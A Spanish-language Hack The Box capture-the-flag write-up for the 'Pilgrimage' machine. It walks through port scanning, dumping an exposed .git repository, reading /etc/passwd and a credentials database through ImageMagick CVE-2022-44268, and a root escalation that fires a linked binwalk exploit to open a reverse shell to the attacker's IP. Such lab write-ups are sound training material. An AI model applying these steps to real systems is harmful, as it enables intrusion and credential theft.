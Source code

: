 ```yaml
---
layout: single
title: Pilgrimage - Hack The Box
excerpt: "Para resolver esta máquina nos aprovechamos del código fuente del servicio web, que lo obtenemos al hacer la respectiva enumeración, donde allí veremos como funciona por detrás a la hora de subir una imagen, incluso viendo la versión de la herramienta que se utiliza para subir la imagen, la cual contiene una vulnerabilidad de las que nos aprovechamos para convertirla a LFI obteniendo credenciales válidas para conectarnos por SSH, para posterior a ello llevar un RCE para escalar nuestro privilegio."
date: 2023-10-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-sau/pilgrimage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Enumeration Web (/.git)
  - file upload abuse
  - CVE-2022-44268
  - Arbitrary file read
  - LFI
  - abusing scripting bash
---
```


![](/assets/images/htb-writeup-sau/pilgrimage_logo.png)

Para resolver esta máquina nos aprovechamos del código fuente del servicio web, que lo obtenemos al hacer la respectiva enumeración, donde allí veremos como funciona por detrás a la hora de subir una imagen, incluso viendo la versión de la herramienta que se utiliza para subir la imagen, la cual contiene una vulnerabilidad de las que nos aprovechamos para convertirla a LFI obteniendo credenciales válidas para conectarnos por SSH, para posterior a ello llevar un RCE para escalar nuestro privilegio


# PortScan
_______

```
nmap -sCV -p22,80 -oN targeted 10.10.11.219

Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 09:58:12 2023 -- 1 IP address (1 host up) scanned in 9.34 seconds
```

# Sitio Web
________


![](/assets/images/htb-writeup-sau/Pasted image 20231030160138.png)

Tendríamos este sitio web, el cual podemos registrarnos, para loguerarnos y posterior a esto subir fotos, aunque no es necesario, pero sí nos logueamos sería más fácil para ver las fotos que hemos subido con su ruta de donde está subida.

Podemos analizar el código fuente, probar con credenciales básicas & default para intentar entrar como Root pero no encontaríamos nada, más no obstante al fuzzear la dirección del sitio web con "**GoBuster**", descubriríamos los siguientes directorios **Git**.

```
 gobuster dir -u http://pilgrimage.htb/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 20 -x php,html,js,txt


/.git/HEAD            (Status: 200) [Size: 23]
/.git/logs/           (Status: 403) [Size: 153]
/.git                 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/]
/.git/logs/.html      (Status: 403) [Size: 153]                                  
/.git/config          (Status: 200) [Size: 92]                                   
```

Vemos que el recurso **Git** que usualmente suele estar oculto está expuesto, estos podríamos descargarlo manualmente, pero sí indagamos podríamos encontrar herramientas qué descargan los recursos automáticamente, como por ejemplo esta [Git Dumper](https://github.com/arthaud/git-dumper), la cual nos descargará los recursos de la URL indicada con el directorio **/.git** indicado, sé recomienda leer cómo usarla en el repositorio de la misma herramienta.


![](/assets/images/htb-writeup-sau/Pasted image 20231030161111.png)

Sí nos abrimos el "**index.php**".


![](/assets/images/htb-writeup-sau/Pasted image 20231030161308.png)


Notaremos qué está usando el el "**Magick Convert**", para hacer un resize del %50, y meterlo en la ruta de descargar con un nuevo nombre, y la extensión de la imagen, y más abajo nos chiva la ruta absoluta donde está guardando esto.

al descargar los recursos, obtuvimos el binario del "**magick**", así que procedemos a ver la versión para poder ver si está desactualizada y es vulnerable a algo.

![](/assets/images/htb-writeup-sau/Pasted image 20231030161752.png)

Sí indagamos en busca de vulnerabilidades de esta versión de **magick**, encontraríamos una vulnerabilidad de un "**Arbitrary File Read**" en [Exploit-DB](https://www.exploit-db.com/exploits/51261), la cuál nos facilita un [PoC](https://github.com/voidz0r/CVE-2022-44268), del cuál podemos aprovecharnos para crear imágenes "contaminadas" para aprovecharnos del File Read, y llevar a cabo un LFI.

Una vez subamos la imagen, nos descargamos la misma imagen en local con "wget" para visualizar los metadatos de la misma con "identify".

![](/assets/images/htb-writeup-sau/Pasted image 20231030163405.png)

Nos representará una cadena en **hexadecimal**, la cual debemos convertir en texto claro para que sea legible y en éste caso ver el "/etc/passwd", en este caso usaremos un convertidor online para convertirlo en texto claro.

![](/assets/images/htb-writeup-sau/Pasted image 20231030163639.png)


Como vemos hemos llevado a cabo un **LFI** y leído el passwd, pero sí intentamos listar las claves del .ssh no veremos nada, ni indagando encontraríamos nada interesante, por lo qué nos aprovechamos qué sabemos la ruta absoluta de la db, que es "**/var/db/pilgrimage**" para tratar de ver sí conseguimos credenciales.

![](/assets/images/htb-writeup-sau/Pasted image 20231030164035.png)

En la cual al convertirla a texto plano encontraríamos las credenciales de **emily** para conectarnos a través de **SSH**.


# Escalada de Privilegios
_________


Usamos **pspy64** para buscar posibles brechas qué podamos aprovechar para escalar nuestro privilegios a Root.

![](/assets/images/htb-writeup-sau/Pasted image 20231030164924.png)

Vemos qué Root está ejecutando un script en bash, en el cual podemos leer y dentro tiene el siguiente código:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

El script monitorea el directorio `/var/www/pilgrimage.htb/shrunk/` en busca de archivos recién creados. Luego, verifica si el contenido de cada archivo contiene ciertas cadenas de texto prohibidas, como "Executable script" o "Microsoft executable". Si se encuentra alguna de estas cadenas, el archivo se elimina automáticamente, y lo está haciendo con el binario binwalk.

![](Pasted image 20231030165452.png)

Cuyo versión **binwalk**, sí indagamos en busca de vulnerabilidades encontraremos qué podemos llevar a cabo un **RCE** con esta versión en específico según Exploit-DB, el cual ahí mismo nos proporciona un exploit programado en python para otorgarnos una Reverse Shell. [(Click aquí para ver exploit)](https://www.exploit-db.com/exploits/51249)

El cuál debemos ejecutarnos estando en la ruta "/var/www/pilgrimage.htb/shrunk" y indicar los parámetros de nuestra IP que estarmos escuchando y nuestro puerto.

```
python3 exploit.py image.png 10.10.14.x 443
```

![](/assets/images/htb-writeup-sau/Pasted image 20231030170607.png)
